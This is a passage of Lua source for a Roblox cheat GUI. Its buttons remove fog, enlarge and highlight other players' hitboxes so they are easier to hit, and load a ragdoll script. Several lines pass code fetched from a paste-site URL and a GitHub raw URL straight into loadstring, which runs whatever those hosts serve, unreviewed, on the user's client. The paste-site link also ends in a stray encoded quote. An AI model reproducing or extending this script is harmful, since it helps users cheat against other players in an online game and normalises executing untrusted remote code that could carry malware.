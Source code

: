 		FOG.MouseButton1Click:connect(function()
			game.Lighting.FogEnd = 100000
			game.Lighting.FogStart = 100000
		end)
	
		-- cya

		loadstring(game:HttpGet("https://paste-bin.xyz/raw/12857%22", true))()
	
		loadstring(game:HttpGet('https://raw.githubusercontent.com/martinelcrac/cryptonichub/main/Ragdollengine.lua'))()
		
		_G.HeadSize = 20
		_G.Disabled = true
	
		game:GetService('RunService').RenderStepped:connect(function()
			if _G.Disabled then
				for i,v in next, game:GetService('Players'):GetPlayers() do
					if v.Name ~= game:GetService('Players').LocalPlayer.Name then
						pcall(function()
							v.Character.HumanoidRootPart.Size = Vector3.new(_G.HeadSize,_G.HeadSize,_G.HeadSize)
							v.Character.HumanoidRootPart.Transparency = 0.7
							v.Character.HumanoidRootPart.BrickColor = BrickColor.new("Really blue")
							v.Character.HumanoidRootPart.Material = "Neon"
							v.Character.HumanoidRootPart.CanCollide = false
						end)
					end
				end
			end
		end)
	end)
end
coroutine.wrap(JPQO_fake_script)()
local function NVSZCE_fake_script() -- rogdoll.LocalScript 
	local script = Instance.new('LocalScript', rogdoll)

	script.Parent.MouseButton1Click:Connect(function()
		loadstring(game:HttpGet('https://raw.githubusercontent.com/martinelcrac/cryptonichub/main/Ragdollengine.lua'))()
	end)
end
coroutine.wrap(NVSZCE_fake_script)()
local function AVTY_fake_script() -- strucid.LocalScript 
	local script = Instance.new('LocalScript', strucid)

	script.Parent.MouseButton1Click:Connect(function()
		_G.HeadSize = 20
		_G.Disabled = true
	
		game:GetService('RunService').RenderStepped:connect(function()
			if _G.Disabled then
				for i,v in next, game:GetService('Players'):GetPlayers() do
					if v.Name ~= game:GetService('Players').LocalPlayer.Name then
						pcall(function()
							v.Character.HumanoidRootPart.Size = Vector3.new(_G.HeadSize,_G.HeadSize,_G.HeadSize)
							v.Character.HumanoidRootPart.Transparency = 0.7
							v.Character.HumanoidRootPart.BrickColor = BrickColor.new("Really blue")
							v.Character.HumanoidRootPart.Material = "Neon"
							v.Character.HumanoidRootPart.CanCollide = false
						end)
					end
				end
			end
		end)
	end)
end
coroutine.wrap(AVTY_fake_script)()
